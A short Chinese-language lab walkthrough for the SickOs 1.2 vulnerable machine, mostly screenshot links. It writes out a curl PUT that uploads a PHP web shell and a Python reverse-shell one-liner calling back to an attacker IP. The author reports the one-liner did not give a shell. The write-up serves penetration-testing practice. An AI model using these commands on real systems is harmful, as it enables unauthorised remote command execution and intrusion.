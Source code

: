 # SickOs1.2

![image-20200619213638254](assets/SickOs1.2.assets/image-20200619213638254.png)



![image-20200619213758347](assets/SickOs1.2.assets/image-20200619213758347.png)



![image-20200619215228897](assets/SickOs1.2.assets/image-20200619215228897.png)

test打开是目录，先看看是否能put

![image-20200619215435696](assets/SickOs1.2.assets/image-20200619215435696.png)

![image-20200619215511209](assets/SickOs1.2.assets/image-20200619215511209.png)

也可以用curl确认

```bash
curl -v -X OPTIONS http://10.10.10.137/test/
```

![image-20200619215817463](assets/SickOs1.2.assets/image-20200619215817463.png)

```bash
 curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.10.10.137/test/evil.php
```

![image-20200619220854241](assets/SickOs1.2.assets/image-20200619220854241.png)

![image-20200619221002732](assets/SickOs1.2.assets/image-20200619221002732.png)

用一句话，但是没有得到shell

```bash
http://10.10.10.137/test/evil.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

尝试使用wget吧php rshell 上传过去以获得shell

![image-20200619222515058](assets/SickOs1.2.assets/image-20200619222515058.png)

![image-20200619222546121](assets/SickOs1.2.assets/image-20200619222546121.png)

